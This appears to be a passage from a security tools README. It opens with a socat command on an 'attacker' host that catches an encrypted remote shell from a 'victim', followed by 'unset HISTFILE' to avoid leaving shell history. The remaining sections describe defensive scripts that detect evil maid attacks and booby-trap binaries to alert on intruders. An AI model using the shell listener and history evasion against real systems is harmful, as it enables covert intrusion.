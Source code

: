 ```
```
root@attacker:~/freedomfighting# socat openssl-listen:8080,reuseaddr,cert=server.pem,cafile=client.crt,method=TLS1 file:`tty`,raw,echo=0
root@victim:~# unset HISTFILE
root@victim:~#
```

## boot_check.py

This script was written to detect evil maid attacks. It does so by checking at
boot time if the hard drive was powered on but not the OS (for instance, if it
was taken out of the computer for a copy, or if someone tried to boot the
machine but was stopped by a FDE password).

### Installation:

You need to make sure this script will run at every boot. The following
instructions will work on distributions using systemd.

* Copy boot_check.service to `/etc/systemd/system/`. Fix paths inside of it as needed.
   The script will run as root so make sure it is not world writable!
* `#> systemctl enable boot_check.service`

Install dependencies:

* `#> apt install smartmontools dialog`

Run the script once so it initializes:

* `#> ./boot_check.py`

If a confirmation message appears, you're good to go.

### Testing

If you want to make sure that the script works, make sure you do the following:
- Do not just reboot the computer, as the power to the hard drive may not be cut. 
Turn it off completely.
- If you don't want to take out your drive and plug it into another machine, you
can try interrupting the boot process. This has to happen before the script is 
executed, but after the drive has been powered on (which means after the BIOS
password). A good moment to interrupt the boot process is when the prompt for the
FDE password is shown.
- Then turn on the computer again, and you should see the alert on your screen
a few seconds after your computer has booted up.

## notify_hook.py

This script was created to provide a simple way to "booby-trap" certain 
executables on a linux system. The idea is to detect intruders when they use
certain binaries (`id`, `whoami`, `gcc`) on a server they don't own.

To protect those binaries, `notify_hook.py` create symbolic links to this 
script higher-up in the `PATH`. `notify_hook` will then send you an alert
and call the intended program in a transparent fashion. For instance, if
you want to "protect" `id`, just create the following symlink on your machine:

```
ln -s path/to/notify_hook.py /usr/local/bin/id
```

...and all future calls to `id` should be routed through this script. This
is obviously not a foolproof way to detect hackers on your systems, but it
should nonetheless catch the most careless intruders.
```